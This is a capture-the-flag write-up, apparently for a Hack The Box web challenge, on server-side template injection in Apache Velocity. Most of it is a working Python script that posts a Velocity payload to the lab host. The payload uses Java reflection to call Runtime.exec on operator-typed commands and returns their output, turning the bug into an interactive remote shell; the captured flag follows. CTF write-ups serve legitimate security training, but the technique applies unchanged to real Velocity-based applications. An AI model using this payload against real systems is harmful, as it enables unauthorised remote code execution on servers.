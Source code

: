 ```yaml
---
ai_date: 2025-04-27 05:16:36
ai_summary: Exploited unfiltered user input in Velocity template execution, leading to code execution; payload bypassed filtering with class loading and output capture.
ai_tags:
  - xss
  - cmd-exec
  - code-exec
created: 2024-07-16T23:56
points: 925
solves: 339
updated: 2025-07-14T09:46
---
```


## Analysis

```java
org.apache.velocity.Template t = new org.apache.velocity.Template();
```

Apparently the server passes our input into the velocity template directly.

However a lot of the online payloads doesn't work.

This is the final payload.

```python
import requests
import re
while True:
    payload = f"""
#set($x='')
#set($rt=$x.class.forName('java.lang.Runtime'))
#set($chr=$x.class.forName('java.lang.Character'))
#set($str=$x.class.forName('java.lang.String'))
#set($ex=$rt.getRuntime().exec('{input("$ ")}'))
$ex.waitFor()
#set($out=$ex.getInputStream().readAllBytes())
#foreach($i in $out)$str.valueOf($chr.toChars($i))#end
"""
    print(re.search('<h2 class="fire">([\s\S]+)</h2>', requests.post("http://94.237.51.8:40899/", data={"text": payload}).text).group(1))

# HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!_0e15f3d341a7529fb80ce21794b76383}
```